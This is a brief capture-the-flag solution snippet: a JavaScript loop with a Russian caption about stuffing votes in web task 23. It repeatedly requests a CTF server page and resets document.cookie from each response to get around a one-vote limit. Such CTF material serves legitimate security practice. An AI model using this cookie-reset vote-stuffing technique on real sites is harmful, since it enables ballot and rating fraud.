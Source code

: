 for(var i=0; i< 1337; i++){  
var xhr = new XMLHttpRequest();  
xhr.open('GET' , 'http://kslweb1.spb.ctf.su/second/level23/', false);   
xhr.send();  
var text = xhr.responseText;  
console.log(text);  
document.cookie = text.split("\n")[4].substr(41);  
}  
^ Накрутка голосов в таске 23 веб кидс 2.0